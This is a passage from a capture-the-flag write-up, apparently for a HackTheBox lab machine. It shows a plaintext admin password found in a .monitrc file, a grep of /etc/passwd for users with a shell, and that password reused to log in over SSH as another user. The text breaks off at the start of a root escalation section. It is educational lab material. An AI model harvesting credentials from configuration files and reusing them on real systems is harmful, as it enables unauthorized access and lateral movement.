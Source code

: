 And the .monitrc has another password:

```cmdbash
dash@usage:~$ cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

Looking for system users with shell, I have dash, xander and root:

```cmdbash
dash@usage:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
```

And the password is correct for xander!:

```cmdbash
❯ ssh xander@10.10.11.18
xander@10.10.11.18's password: 3nc0d3d_pa$$w0rd
<..SNIP..>

xander@usage:~$ 
```

# Access as root

This user (xander) has sudoers privileges:
